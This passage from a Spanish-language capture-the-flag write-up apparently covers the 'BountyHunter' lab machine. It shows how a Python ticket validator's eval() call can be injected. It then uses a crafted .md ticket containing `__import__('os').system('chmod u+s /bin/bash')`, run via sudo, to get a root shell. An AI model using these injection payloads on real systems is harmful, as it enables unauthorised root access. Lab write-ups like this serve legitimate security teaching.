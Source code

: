 Bien, la siguiente parte va a convertir el código del ticket en número, va a dividir lo que salga entre 7 y el resultado debe dar un residuo de 4:
```python
if int(ticketCode) % 7 == 4:
```

Un número que nos sirve será el 11, probémoslo:
```python
>>> x = "** 11 + cosasxd"
>>> int(x.replace("**", "").split("+")[0]) % 7
4
```

Entonces si da 4, se hace una evaluación con:
```python
validationNumber = eval(x.replace("**", ""))
```

Con la función **eval()**, si no está bien sanitizado este código, podemos inyectar código pues cuando hace la validación podemos pedirle que nos haga otra cosa aparte:
```python
>>> eval("11+69")
80
>>> eval("11+69 and __import__('os').system('whoami')")
root
0
```

¿Y qué pasaria si lo probamos con nuestro ejemplo? Vamos a ver:
```python
>>> x = "** 11 + 80 and __import__('os').system('whoami')"
>>> int(x.replace("**", "").split("+")[0]) % 7
4
>>> eval(x.replace("**", ""))
root
0
```

Ufff ahora sabemos cómo inyectar código en la máquina, vamos a crear un archivo en un directorio, por ejemplo, el directorio **/tmp** y agregamos lo que debe llevar el archivo **.md**:
```python
development@bountyhunter:~$ cd /tmp
development@bountyhunter:/tmp$ nano prueba.md
```

Adentro del archivo **prueba.md**:
```python
# Skytrain Inc
## Ticket to 
__Ticket Code:__
** 11 + 2 and __import__('os').system('chmod u+s /bin/bash')
```
El comando **chmod u+s /bin/bash** es para que podamos iniciar **Bash** como root.

Probamos el script de **Python** y ya deberíamos poder iniciar un **Bash** como root:
```bash
development@bountyhunter:/tmp$ sudo -u root python3.8 /opt/skytrain_inc/ticketValidator.py
Please enter the path to the ticket file.
/tmp/prueba.md
Destination: 
Invalid ticket.
```
